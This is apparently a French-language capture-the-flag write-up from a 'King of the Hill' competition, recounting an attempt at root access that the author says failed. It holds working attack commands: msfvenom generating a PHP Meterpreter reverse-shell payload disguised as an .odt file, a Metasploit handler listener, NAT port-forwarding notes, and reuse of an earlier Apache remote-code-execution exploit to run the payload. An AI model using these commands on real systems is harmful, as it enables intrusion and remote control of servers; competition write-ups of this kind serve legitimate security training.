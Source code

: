 # King of the Hill

Bon ben là on essaye d'aller jusqu'au bout : priv esc && root access !

tl;dr; ca n'a pas marché :( sont pas fun les organisateurs vraiment !

par ce que je suis derrière mon routeur wifi sans accès directe à internet depuis ma machine, voici les ressources que j'ai regardé pour pourvoir monter un vrai reverse-shell:

- https://www.offsec.com/metasploit-unleashed/
- https://docs.metasploit.com/docs/using-metasploit/other/how-to-use-metasploit-with-ngrok.html
- How to Metasploit Behind a NAT or: Pivoting and Reverse Tunneling with Meterpreter : https://medium.com/@nikosch86/how-to-metasploit-behind-a-nat-or-pivoting-and-reverse-tunneling-with-meterpreter-1e747e7fa901

C'est le dernier lien qui va m'aider : je m'ouvre trois ports 48444, 48445 et 48433 que j'ai "naté" vers 4444, 4445 et 4433 sur ma machine local, ces ports étant les privilégiés par metasploit lorsqu'il faut monter des handlers de connexion.

## reverse-shell / meterpreter

on va réexploiter la faille de [04-apache-80](../04-apache-80/) pour se monter le reverse shell.

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/php/meterpreter/reverse_tcp.md

```sh
# récupération de l'ip public
export LHOST=$(curl https://ipinfo.io/ip)
export LPORT=48444 # redir to my localip:4444
# génération du payload
msfvenom -p php/meterpreter/reverse_tcp LHOST=$LHOST LPORT=48444 -f raw -o teamNoname.odt
```

```sh
# in msfconsole
# start a listener
use multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.122
set LPORT 4444
run
```

```sh
# dans un autre terminal (tmux powered!)
# executer le payload via le RCE de 04-apache-80
cp ../04-apache-80/Makefile .
cp ../04-apache-80/.htaccess .
cp ../04-apache-80/cv-rda.odt .
# adaptation pour accepter un parametre payload et
make exploit
make run PAYLOAD=teamNoname.odt
```
